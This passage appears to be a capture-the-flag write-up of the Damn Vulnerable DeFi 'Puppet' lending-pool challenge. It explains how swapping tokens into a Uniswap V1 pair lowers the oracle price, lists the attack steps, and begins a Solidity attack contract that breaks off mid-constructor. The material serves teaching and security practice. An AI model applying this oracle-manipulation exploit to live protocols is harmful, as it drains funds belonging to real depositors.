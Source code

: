 ```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}
```

From the `_computeOraclePrice` formula, it’s clear that lowering the oracle price requires reducing the ETH balance and increasing the DVT balance in the uniswapPair. We can achieve this by calling the `tokenToEthTransferOutput()` function in the `UniswapV1Exchange` contract, allowing us to swap ETH for DVT tokens and manipulate the price.

```solidity
function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

### Attack steps:

1. Sign an off-chain approval to allow the attack contract to transfer the player's DVT tokens during the attack. This eliminates the need for an additional on-chain approval transaction, which is crucial since the challenge limits the player to a single transaction.
2. Swap out most of the ETH for DVT tokens in the Uniswap V1 pair to significantly lower the DVT token price.
3. Borrow all the DVT token from the lending pool.
4. Transfer the rescued ETH to the `recovery` address.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IUniswapV1Exchange} from "./IUniswapV1Exchange.sol";

interface IERC20 {
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function permit(address owner, address spender, uint256 value, uint256 deadline, uint8 v, bytes32 r, bytes32 s)
        external;
}

interface IPuppetPool {
    function borrow(uint256 amount, address recipient) external payable;
}

contract AttackPuppet {
    address private immutable uniswapPair;
    address private immutable pool;
    address private immutable token;

    constructor(
        address _uniswapPair,
        address _pool,
        address _token,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        address _recovery
```